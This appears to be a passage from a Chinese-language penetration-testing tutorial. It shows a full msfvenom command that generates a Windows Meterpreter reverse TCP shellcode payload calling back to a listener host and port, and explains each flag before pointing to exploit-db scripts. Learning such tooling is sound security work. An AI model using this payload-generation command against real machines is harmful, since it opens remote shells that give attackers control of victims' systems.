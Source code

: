  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3
LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2fx2ex40"
-f python -a x86

```

+   `-p`：这是需要创建的 payload。

+   `LHOST`：主机，机器应连接到以进行利用。

+   `LPORT`：机器应连接到的端口以进行利用。

+   `-b`：这代表坏字符。它告诉脚本在生成 shell code 时避免使用所述字符。

+   `-f`：这说明了要创建的 shell code 的格式。

+   `-a`：这说明了目标机器的架构，利用将在其上执行。

## 还有更多...

这只是对如何编辑脚本以满足我们需求进行执行的基本理解。此活动旨在向读者介绍 shell code 替换的概念。`exploit-db` 上有许多与各种利用相关的脚本。
